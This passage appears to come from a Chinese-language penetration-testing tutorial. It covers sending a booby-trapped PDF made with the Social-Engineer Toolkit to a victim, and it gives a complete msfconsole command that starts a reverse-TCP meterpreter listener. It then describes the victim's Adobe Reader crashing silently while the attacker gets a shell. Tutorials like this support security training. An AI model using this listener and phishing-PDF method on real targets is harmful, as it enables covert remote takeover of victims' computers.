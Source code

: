 PDF 文件已在目录`/root/.set/`中生成。现在我们需要使用任何可用的通信媒介将其发送给我们的受害者。同时，我们还需要启动一个监听器，该监听器将接受来自目标的反向 meterpreter 连接。我们可以使用以下命令启动监听器：

```
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.44.134; set LPORT 443; run; exit -y"
```

另一方面，我们的受害者收到了 PDF 文件，并尝试使用 Adobe Reader 打开它。Adobe Reader 崩溃了，但没有迹象表明受害者受到了威胁：

![](img/b642bc1f-1c93-4e9c-afdb-3d4690c4a463.jpg)

在监听端（攻击者系统上），我们得到了一个新的 meterpreter shell！我们可以在下面的截图中看到这一点：

![](img/5d733890-4f7b-4a57-b255-0a23733c83f4.jpg)

